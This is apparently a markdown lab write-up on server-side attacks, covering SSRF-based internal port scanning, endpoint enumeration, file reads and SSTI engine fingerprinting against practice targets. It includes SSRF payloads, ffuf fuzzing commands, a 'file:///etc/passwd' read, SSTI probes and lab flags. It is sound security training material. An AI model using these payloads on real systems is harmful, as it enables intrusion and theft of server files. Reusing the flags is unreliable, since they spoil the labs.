




# Server Side Attacks

This document summarizes core techniques for identifying and exploiting **server-side vulnerabilities**. It is intended as a practical, hands-on reference rather than an exhaustive theoretical guide.

---

## Table of Contents

- [Server Side Attacks](#server-side-attacks)
  - [Overview](#overview)
  - [Server-Side Request Forgery (SSRF)](#server-side-request-forgery-ssrf)
    - [SSRF - Internal Port Scanning](#ssrf---internal-port-scanning)
    - [SSRF - Accessing Restricted Endpoints](#ssrf---accessing-restricted-endpoints)
    - [SSRF - Local File Inclusion (LFI)](#ssrf---local-file-inclusion-lfi)
    - [Blind SSRF](#blind-ssrf)
  - [Server-Side Template Injection (SSTI)](#server-side-template-injection-ssti)
    - [SSTI Discovery](#ssti-discovery)

---

## Overview

Server-side attacks target vulnerabilities in applications or services running on the server itself. Unlike client-side attacks (such as XSS), these issues can directly impact backend systems, internal services, and sensitive infrastructure.

Common server-side vulnerabilities include:

- Server-Side Request Forgery (SSRF)
- Server-Side Template Injection (SSTI)
- Server-Side Includes (SSI) Injection
- XSLT (eXtensible Stylesheet Language Transformations) Injection

---

## Server-Side Request Forgery (SSRF)

SSRF vulnerabilities arise when an application fetches remote resources based on **user-supplied input**, typically URLs. If input validation is insufficient, an attacker may coerce the server into making arbitrary requests, including requests to:

- Attacker-controlled servers
- Internal network services
- Localhost interfaces
- Cloud metadata endpoints

If the application allows user-controlled URL schemes or protocols, exploitation may extend beyond `HTTP(S)`. 

Commonly abused schemes include:

- `http://` and `https://`
- `file://`
- `gopher://`

---

### SSRF - Internal Port Scanning

The target application provides an appointment scheduling feature.


After scheduling an appointment and intercepting the request in `Burp Suite`, we identify a POST parameter named `dateserver`. Its value is a URL, indicating that the backend fetches data from a remote resource.

```
dateserver=http://dateserver.htb/availability.php&date=2025-09-02
```


To confirm SSRF, we supply a URL pointing to a server **under our control** and listen for incoming connections:

```bash
nc -lvnp 8001
```

```bash
dateserver=http://10.10.15.190:8001/ssrf&date=2025-09-02
```


The incoming request confirms that the application is vulnerable to SSRF.

We will attempt an internal port scan of the server. But before doing so, we need to understand how the application responds to **closed ports**, so we can filter them out during fuzzing.

We instruct the server to connect to **itself** on a likely closed port:

```bash
dateserver=http://127.0.0.1:81&date=2025-09-02
```

The application responds with an error message:

```
Failed to connect to 10.129.144.135 port 81 ...
```


This message will be used as a filter during fuzzing.

We create a simple wordlist containing the first 10,000 ports:

```bash
seq 1 10000 > ports.txt
```

Using `ffuf`, we fuzz the `dateserver` parameter to identify open internal ports while filtering out closed-port responses:

```bash
ffuf -w ports.txt:FUZZ -u http://10.129.144.135/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2025-09-02" -fr "Failed to connect to"
```

The scan reveals three open internal ports:

- `80`
- `3306`
- `8000`


When directing the application to the service running on port `8000`, we successfully retrieve the flag:

```bash
dateserver=http://127.0.0.1:8000&date=2025-09-02
```

```
HTB{911fc5badf7d65aed95380d536c270f8}
```


---

### SSRF - Accessing Restricted Endpoints

We continue working with the application from the previous section. This time, the goal is to leverage the confirmed SSRF vulnerability to enumerate **restricted or hidden internal endpoints**.

Before fuzzing, it is important to understand how the application responds to non-existent resources, so we can reliably distinguish valid endpoints from invalid ones during enumeration.

We request a directory that is unlikely to exist:

```bash
dateserver=http://dateserver.htb/invalid&date=2025-09-02
```


The server responds with a standard `404 Not Found` error. 


This response will serve as our baseline and can be filtered out during fuzzing to reduce noise.

With the baseline established, we use `ffuf` to fuzz potential endpoint names through the vulnerable `dateserver` parameter. The application appends `.php`, so the wordlist entries are used accordingly.

We filter out responses that match the known `404` behavior and irrelevant word counts:

```bash
ffuf -w directory-list-2.3-small.txt:FUZZ -u http://110.129.153.47/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.php&date=2025-09-02" -fr 404 -fw 3,23 -ic
```

The scan reveals two valid internal endpoints:

- `admin`
- `availability`


We direct the application to the `admin.php` endpoint via the SSRF parameter:

```bash
dateserver=http://dateserver.htb/admin.php&date=2025-09-02
```


The request succeeds, and the application returns the flag:

```bash
HTB{61ea58507c2b9da30465b9582d6782a1}
```


---

### SSRF - Local File Inclusion (LFI)

If an application allows **user-controlled URL schemes**, SSRF vulnerabilities can sometimes be escalated to **Local File Inclusion (LFI)**. This occurs when the server-side request mechanism accepts non-HTTP schemes, such as `file://`, enabling direct access to files on the local filesystem.

In this scenario, the `dateserver` parameter accepts a full URL and does not enforce strict scheme validation. This allows us to replace the original `http://` scheme with `file://` and attempt to read sensitive files from the server.

As an initial test, we attempt to read the standard Linux `/etc/passwd` file:

```bash
dateserver=file:///etc/passwd&date=2025-09-02
```



The server responds with the contents of `/etc/passwd`, confirming that:

- The application permits the `file://` URL scheme
- The server-side process has read access to local system files
- The SSRF vulnerability can be leveraged for arbitrary file reads



At this point, the impact of the vulnerability increases significantly. Depending on permissions and system configuration, this technique may allow attackers to read:

- Application source code
- Configuration files containing credentials or API keys
- Logs containing sensitive data
- SSH keys or environment variables

This highlights why SSRF vulnerabilities should be treated as **high severity**, especially when URL scheme validation and outbound request restrictions are not properly enforced.

---

### Blind SSRF

In some cases, the response to an SSRF payload is **not returned to the attacker**. These vulnerabilities are referred to as **blind SSRF**. While blind SSRF generally limits direct data exfiltration, it can still be leveraged for **internal network enumeration**, service discovery, and attack surface mapping.

As with standard SSRF, blind SSRF is initially identified by supplying a URL that points to a server under the attacker’s control.

```bash
nc -lvnp 8001
```

```bash
dateserver=htp://10.10.14.137:8001/ssrf&date=2026-01-01
```


Receiving a connection confirms that the application is making outbound requests based on user-controlled input, and therefore is vulnerable to SSRF.

When directing the application to request its own content, no response body is returned to the user. Instead, a generic message is displayed:

```bash
dateserver=http://127.0.0.1:80&date=2026-01-01
```

```
Date is unavailable. Please choose a different date!
```


However, when the application is pointed to a closed port, the response differs:

```bash
dateserver=http://127.0.0.1:81&date=2026-01-01
```

```
Something went wrong!
```



The difference in responses between open and closed ports indicates that, despite being blind, the SSRF vulnerability can still be exploited as an **oracle** to infer internal network state.

To enumerate internal services, we first generate a list of candidate ports:

```bash
seq 1 10000 > ports.txt
```

Using `ffuf`, we fuzz the `dateserver` parameter while filtering out responses associated with closed ports:

```bash
ffuf -w ports.txt:FUZZ -u http://10.129.129.65/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2026-01-01" -fr "Something went wrong"
```

The scan reveals two open internal ports:

- `80`
- `5000`


Although blind SSRF prevents direct response inspection, it can still be used to:

- Enumerate open internal ports
- Identify internal services and applications
- Infer file existence or service behavior based on response differences
- Gather intelligence for chaining into higher-impact attacks

Even limited SSRF findings should be treated seriously, as they often act as stepping stones toward deeper compromise.

---

## Server-Side Template Injection (SSTI)

A **template engine** is software used by web applications to generate dynamic content by combining static templates with runtime data. This allows developers to reuse common components (such as headers, footers, or layouts) while dynamically rendering page-specific content.

Common template engines include:

- `jinja` (Python / Flask Django)
- `twig` (PHP / Symfony)

Templates can be defined as files or inline strings and typically contain placeholders where dynamic values are inserted. These values are supplied as key–value pairs during rendering.

For example, the following template contains a variable called `name`, which is replaced with a dynamic value at runtime:

```jinja
Hello {{ name }}
```

If the application renders this template with `name="Sam"`, the resulting output will be:

```
Hello Sam
```

Modern template engines support more advanced features such as loops, conditionals, and expressions, making them effectively small domain-specific programming languages. For example:

```jinja

Hello {{ name }}!

```

If the template is rendered with:

```jinja
names = ["sam", "cibola", "hackerman"]
```

The output will be:

```
Hello sam!
Hello cibola!
Hello hackerman!
```

**Server-Side Template Injection (SSTI)** vulnerabilities occur when user-controlled input is embedded directly into a template and rendered by the server **without proper sanitization**. In such cases, an attacker can inject template syntax that is interpreted and executed by the template engine. 

Depending on the engine and configuration, successful SSTI exploitation may allow an attacker to:

- Read sensitive server-side data
- Access application configuration and environment variables
- Perform arbitrary file reads
- Achieve remote code execution (RCE)

Because template rendering occurs **server-side**, SSTI vulnerabilities are often high-impact and may lead to full system compromise.

---

 ### SSTI Discovery

Each template engine uses slightly different syntax. As a result, the first step in exploiting an SSTI vulnerability is **fingerprinting the template engine** used by the application.

The discovery process closely resembles other injection-based vulnerabilities (such as SQL injection or command injection): we inject input containing special characters with semantic meaning in template engines and observe how the application responds.

A commonly used probe string containing syntax elements from multiple popular template engines is:

```
${{<%[%'"}}%\.
```

If the application is vulnerable to SSTI, injecting this string will typically cause a template parsing error, as it violates expected syntax rules.

When injecting the probe string into the target application we receive an `Internal Server Error`.


This increases the likelihood of the target being vulnerable to SSTI.

When interacting with the target application, we are prompted to enter a name:

```
Enter your name:
```


When entering a name, for example `Sam`, the name is reflected back to us:

```
Hi Sam!
```



Because the response dynamically incorporates user input, we can infer that the application is rendering content using a template engine. This makes the application a strong candidate for SSTI testing.

The following decision tree is commonly used to identify the underlying template engine based on payload behavior:


We begin with a simple arithmetic expression commonly supported by many template engines:

```
${7*7}
```

The payload is reflected verbatim in the response:

```
Hi ${7*7}!
```


Since the expression was not evaluated, we follow the red path in the decision tree and test the next payload:

```
{{7*7}}
```

This time, the payload is evaluated by the server:

```
Hi $49!
```


Because the expression was executed, we proceed along the green path and test a payload that behaves differently depending on the template engine:

```
{{7*'7'}}
```

The result is again:

```
Hi $49!
```


This behavior allows us to distinguish between common engines:

- Jinja evaluates `7 * '7'` as string multiplication &rarr; `7777777`
- Twig evaluates it as numeric multiplication &rarr; 49

Since the result is `49`, we can confidently conclude that the target application is using the `Twig` template engine.

---
